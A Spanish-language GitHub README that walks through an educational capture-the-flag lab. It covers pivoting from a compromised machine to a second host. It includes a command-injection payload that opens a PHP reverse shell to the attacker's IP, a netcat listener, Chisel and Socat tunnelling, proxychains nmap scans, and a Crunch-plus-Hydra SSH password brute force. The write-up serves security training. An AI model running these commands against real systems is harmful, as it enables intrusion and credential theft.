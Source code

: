 # CTF-4
*Capture the flag* donde se trabaja el *pivoting* entre máquinas de la misma red, *reverse shell*, escucha de puertos, montaje de un servidor con *Python*, *Crunch*, *Hydra*.
<div>
  <img src="https://img.shields.io/badge/-Kali-5e8ca8?style=for-the-badge&logo=kalilinux&logoColor=white" />
  <img src="https://img.shields.io/badge/-PHP-777BB4?style=for-the-badge&logo=php&logoColor=white" />
  <img src="https://img.shields.io/badge/-Netcat-F5455C?style=for-the-badge&logo=netcat&logoColor=white" />
  <img src="https://img.shields.io/badge/-python-3776AB?style=for-the-badge&logo=python&logoColor=white" />
  <img src="https://img.shields.io/badge/-chisel-CD1414?style=for-the-badge&logo=chisel&logoColor=white" />
  <img src="https://img.shields.io/badge/-Proxychains-3EBBDF?style=for-the-badge&logo=proxychains&logoColor=white" />
  <img src="https://img.shields.io/badge/-nmap-6933FF?style=for-the-badge&logo=nmap&logoColor=white" />
  <img src="https://img.shields.io/badge/-Crunch-0080FF?style=for-the-badge&logo=crunch&logoColor=white" />
  <img src="https://img.shields.io/badge/-Hydra-77B6A8?style=for-the-badge&logo=hydra&logoColor=white" />
  <img src="https://img.shields.io/badge/-Socat-777BB4?style=for-the-badge&logo=socat&logoColor=white" />
  <img src="https://img.shields.io/badge/-Docker-2496ED?style=for-the-badge&logo=docker&logoColor=white" />
</div>

## Objetivo

Explicar la realización del siguiente _Capture the flag_ dentro del mundo educativo. Se pretende conseguir un archivo (_flags_), dentro del entorno del usuario básico. Para ello, se deberá pivotar desde la máquina resuelta en el [CTF-3](https://github.com/Cibersegurata39/CTF-3) a la máquina de este nuevo reto y una vez dentro pasar al usuario básico.

## Que hemos aprendido?

- Realizar un *pivoting* entre dos máquinas de la misma red.
- Realizar una *reverse shell* con código *php*.
- Poner puertos en escucha.
- Montar un sevidor fácilmente con *Python*.
- Encontrar una máquina y enumerar sus puertos.
- Montar un diccionario a partir de una secuencia dada de caracteres.
- *Crackear* una contraseña.

## Herramientas utilizadas

- *Kali Linux*.
- *Pivoting*: *Python3*, *Chisel*, *Proxychains*, *Socat*.
- Enumeración: *Nmap*.
- Penetración: *Netcat*, *Crunch*, *Hydra*. 

## Steps

### Vulnerabilidades explotadas

Partiendo del primer formulario encontrado en el CTF-3, ejecuto una *reverse shell* con código **php**, indicando la dirección IP y el puerto de la máquina local que estará escuchando.

<code>;ls;php -r '$sock=fsockopen("10.0.2.15",1234);exec("/bin/sh -i <&3 >&3 2>&3");';</code>

![image](https://github.com/user-attachments/assets/8ec4b208-1dd2-47d4-8f79-9155f6f56acf)

Para poner en escucha el puerto 1234, utilizo **Netcat**.

<code>nc -lvnp 1234</code>

La conexión ha sido un éxito, esta muestra la IP de la máquina 172.18.0.2.

![image](https://github.com/user-attachments/assets/9eaefd34-4035-4094-af1e-db536c3b4a07)

Para **pivotar** entre máquinas, es necesario descargar el programa **Chisel** en la máquina atacante. Puesto que también se necesita en la máquina que acabamos de penetrar (máquina intermedia, a partir de ahora), se crea un servidor con **Pyhotn3** desde la carpeta donde se encuentra *Chisel* (máquina atacante). Este sevidor es necesario para poder descargar el programa en la máquina intermedia, ya que no dispone de esta herramienta y tampoco se puede descargar directamente desde ella, pues está muy capada.

<code>python3 -m http.server 8080</code>

![image](https://github.com/user-attachments/assets/7f85fb6c-c443-49e6-9a1f-174109bea616)

Puesto que tampoco dispone de los binarios <code>wget</code> o <code>curl</code>, se utiliza un pequeño código *php* para realizar la descarga ('descarga_archivo.php'). En el código se indica la dirección donde se encuentra *Chisel* (máquina atacante), así como donde guardarlo (máquina intermedia). Se guarda en la carpeta '/tmp'. pues desde ahí se tienen permisos de ejecución.

Una vez descargado y otorgados los permisos de ejecución, lo lanzo desde la máquina anfitriona, como servidor, y pongo en escucha el puerto 3456 (por ejemplo).

<code>chisel server --reverse -p 3456</code>

![image](https://github.com/user-attachments/assets/a40614a5-773f-4d32-881f-1c3463a639bc)

También lo lanzo en la máquina intermedia, como cliente, indicándole la dirección IP y puerto de la máquina atacante. Además, con ‘R:socks’ indico que me de acceso a todas las IPs/puertos con las que esté conectada la máquina intermedia (conexión con la máquina víctima a la que se pretende conseguir llegar).

<code>. /chisel client 10.0.2.15:3456 R:socks</code>

![image](https://github.com/user-attachments/assets/d88edd57-7d66-4665-a25d-8ea6fcf3f85d)

Ahora la máquina anfitriona, por medio del puerto 3456, tiene visibilidad de las posibles conexiones de la máquina intermedia, como podría ser la máquina final.

Para hacer un barrido de IPs con el objetivo de encontrar la última máquina, debo utilizar la herramienta **Proxychains** para utilizar el túnel creado con *Chisel*. Se le indica su dirección IP y puerto (se muestra en la *shell* de la máquina atacante después de realizar la conexión), los cuales se añaden en el archivo de configuración.

<code>sudo nano /etc/proxychains4.conf</code>

Se descomenta la línea que contiene *Dynamic_chain* y se comenta la línea que contiene *static_chain*. Además, al final del archivo se añade ‘socks5 127.0.0.1 1080’ (dirección perteneciente al túnel creado).

![image](https://github.com/user-attachments/assets/1410a5c7-1d8a-4d02-bbee-368ca7cb7b7b)

Para utilzar ahora este túnel se utiliza el comando *Proxychains* y se lanza un *nmap* para hacer el barrido de IPs con la dirección de la máquina intermedia y así encontrar aquellas máquinas que estén en su misma red. Al utilizar *proxychains* sería como lanzar el *nmap* desde la propia máquina intermedia. Se indica que no haga reconocimiento *ping* y la máquina final es encontrada en la dirección 172.18.0.3.

<code>proxychains nmap 172.18.0.0/24 -Pn</code>

![image](https://github.com/user-attachments/assets/f133cc92-395e-4f6e-a3da-e846edcd3917)

Ahora se puede realizar un ataque más centrado en esta máquina y buscar qué puertos tiene abiertos y qué versiones corren en ellos.

<code>proxychains nmap 172.18.0.3 -Pn -sV -p-</code>

![image](https://github.com/user-attachments/assets/241f93d4-06fe-4b98-8ff3-f47a3f37af44)

Se encuentra un servicio *SSH* en el puerto 2222, por lo que se intenta la conexión por medio de *proxychains*. Aparece el inconveniente de que ninguna de las contraseñas encontradas en la base de datos sirven para tener acceso. Igual que en el anterior CTF (CTF-3) se encontró, por medio de *SQLMap*, la tabla con la bandera correspondiente, también se encontró una tabla con diferentes usuarios y contraseñas.

![image](https://github.com/user-attachments/assets/1e9d0fc7-495d-4009-a32f-7a9210c3451b)

En tal caso, se va a probar diferentes combinaciones de los caracteres de cada contraseña para ver si alguna es la correcta, empezando con el usuario Pablo pues es el más probable de éxito. Para conseguir la permuta de caracteres se hace uso de la herramienta **Crunch**, la cual creará un diccionario con todas las posibilidades. Indico que las *passwords* generadas tengan una longitud (mínima y máxima) de 8, la contraseña original a partir de la cual se formarán las demás y el nombre del dicionario que se creará.

<code>crunch 8 8 "tefeme\!." -o pwds.txt</code>

![image](https://github.com/user-attachments/assets/bb9dd4c4-0072-41ec-b938-97572b8b82ad)

Una vez creado el diccionario 'pwds.txt', se utiliza este para encontrar la contrasña, por medio de fuerza bruta. Esto es posible gracias a la ayuda de la herramienta **Hydra**. En el comando se indica la IP y el servicio a *crackear*, el usuario (en este caso, como se va a probar con Pablo, se pasa '-l' en minúscula), la contraseña (puesto que es la que se quiere encontrar, se indica con '-P' en mayúscula) y finalmnente se informa del puerto donde se conectará. Por aclarar, si se conoce el usuario o la contraseña, estos se indican con la letra en minúscula. Por contra, si no se conocen se indica con mayúscula.

<code>proxychains hydra 172.18.0.3 ssh -l pablo -P pwds.txt -s 2222</code>

![image](https://github.com/user-attachments/assets/b8957d3e-b8fc-479f-b1d6-8295caf4f3e2)

*Hydra* ha encontrado la contraseña correcta: 'tefeme.!'. Ya sólo queda conectarse vía SSH con esta password y buscar la *flag*.

![image](https://github.com/user-attachments/assets/5881e81f-6cee-4265-be5b-4de96ea09c31)

**Flag: 4d8c72671245d9d1b8e03a826db9d5ecead28c8c**

### Alternativa Socat

Otra herramienta que permite el *pivoting* y se puede utilizar como alternativa a *Chisel* es **Socat**, la cual si se encuentra en la máquina intermedia. Desde esta se indica el puerto que se pone en escucha y la IP-puerto de la máquina final a la que se pretende conectar.

<code>socat tcp-l:222,fork tcp:172.18.0.3:2222</code>

![image](https://github.com/user-attachments/assets/c658cc35-ef0a-4189-8ffc-eb6c821eb6b0)

De esta manera, desde la máquina atacante se puede conectar váa *ssh* a la máquina intermedia por el puerto que está en escucha. Y este, a su vez, conectar con el puerto de la máquina final indicado. 

<code>ssh pablo@172.18.0.2 -p 222</code>

![image](https://github.com/user-attachments/assets/26da0e19-0014-488e-b7c5-af1c9189a428)

Una vez dentro ya se puede buscar la bandera.
